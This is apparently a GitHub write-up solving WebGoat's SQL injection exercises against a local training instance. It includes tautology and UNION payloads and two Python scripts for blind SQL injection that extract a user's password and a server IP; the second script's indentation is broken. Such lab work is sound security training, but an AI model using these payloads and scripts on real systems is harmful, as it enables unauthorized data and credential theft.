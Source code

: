 # WebGoat Injection Flows
## SQL Injection (intro)
### Number 7
![Sql Injection n.7](https://github.com/AlessandroMorelli96/WebGoat/blob/master/images/01_01.png)

As you read in the previous part of this chapter we need to inject in the "Account Name" field something like this:
```
' or 1=1 --
```
The " ' " close the " ' " in the sql command, then we make a statement that is always true. This way all the entries of the database will be print. At the end we add -- to comment the rest of the Sql command, so if there are other request, they will commented.

### Number 8
![Sql Injection n.8](https://github.com/AlessandroMorelli96/WebGoat/blob/master/images/01_02.png)

As we read in this chapter we need to inject somthing like:
```
1 or 1=1 --
```
We need to pass a number because USERID is a number.

## SQL Injection (advanced)
### Number 3
![Sql Injection (Advanced) n.3](https://github.com/AlessandroMorelli96/WebGoat/blob/master/images/01_03.png)

To resolve this exercise you can read this documentation that is very good to learn how to implement a union injection.

First of all we need to find the number of columns of the table we are using. To do this we need to inject in the "Name" field:
```
' or 1=1 --
```
Now we can see the number and the type of columns.

![Sql Injection (Advanced) n.3 Number and Type of Columns](https://github.com/AlessandroMorelli96/WebGoat/blob/master/images/01_04.png)

With this information we can do a union with "user_system_data" table.

To make this union, we have to use the same number of columns and type.
```
' union select 0,user_name,password,'','','',0 from user_system_data --
```
And as we expected we achieve the solution.

![Sql Injection (Advanced) n.3 Solution](https://github.com/AlessandroMorelli96/WebGoat/blob/master/images/01_05.png)

### Number 5

![Sql Injection (Advanced) n.5](https://github.com/AlessandroMorelli96/WebGoat/blob/master/images/01_06.png)

First we try to register the username tom, but already exist. we try to register: ```tom' or 1=1```, but already exist also this.

So we try to register something like: ```Ale' or 1=1```, but it as no succes, so we try Ale and it doesn't exist so we noticed that the backend execute somthing like select <name> and if it exist it can't be registered. So now we can bruteforce to retrive the password of tom by doing a script in python that tray with "like" the password so the backend will try select username=tom and password like a%, where the "a" could be the firt letter and so on.
```
from string import *
import requests
from random import *
s = requests.Session()

alphabet = ascii_lowercase + ascii_uppercase + digits

user = ''.join(choice(alphabet) for i in range(12))
passwd = '123456789'

url = 'http://localhost:8080/WebGoat/register.mvc'
s.post(url, params={'username': user, 'password': passwd, 'matchingPassword': passwd, 'agree': 'agree'})


url = 'http://localhost:8080/WebGoat/SqlInjection/challenge'

tom_password = '%'

while True:
    counter = 1
    for char in alphabet:
        test = tom_password.replace("%", char + "%")
        parameters = {'username_reg': "tom' and password like '%s" % test, 'email_reg': 'tom@gmail.com', 'password_reg': 'tom', 'confirm_password_reg': 'tom'}
        print(test)
        response = s.put(url, params=parameters)
        counter += 1
        text = response.text
        if "already exists" in text:
            tom_password = test
            break

    if len(alphabet) < counter:
        break

print("password: " + tom_password)
```
We also can do a manual search by typing: "tom' and password like 't%"

We have to run this script with Python3 then when it finish we delete the last "%" and we get the password for tom (thisisasecretfortomonly). (There is a bug that don't make turn green the block 5)

## SQL Injection (mitigation)
### Number 8
![Sql Injection (Mitigation) n.8](https://github.com/AlessandroMorelli96/WebGoat/blob/master/images/01_07.png)

After some test we found that if we ask to order by ip, in the address path we have the state "column". We can use this to do samthing like this: " case (True) then … else … end ".

And instead of "(True)" we use "exists()".

So we pass to the exists function the select for the ip of the webgoat-prd and we compare every character with a number. If the result is ordered by ip we know that the number we use is true, while it will be ordered by mac address if it is not true.

We can use python to retrieve this solution with this script:
```
from string import *
import requests
from random import *
s = requests.Session()
alphabet = ascii_lowercase + ascii_uppercase
user = ''.join(choice(alphabet) for i in range(12))
passwd = '123456789'
url = 'http://localhost:8080/WebGoat/register.mvc'
s.post(url, params={'username': user, 'password': passwd, 'matchingPassword': passwd, 'agree': 'agree'})
alphabet = digits + "."
for i in range(1,15):
for n in alphabet:
        
        url = "http://localhost:8080/WebGoat/SqlInjection/servers?column=(CASE WHEN (SELECT ip FROM servers WHERE hostname='webgoat-prd' AND substr(ip,%s,1) = '%s') IS NOT NULL THEN hostname ELSE id END)" % (i, n)
        resp = s.get(url)
print("{}, {}: {}".format(i, n, resp.text))
print("-----------------------------------------------------------")
```
The ip of webgoat-prd is ```104.130.219.202```.
You can also use ZAP Fazzer, and doing the same thing.
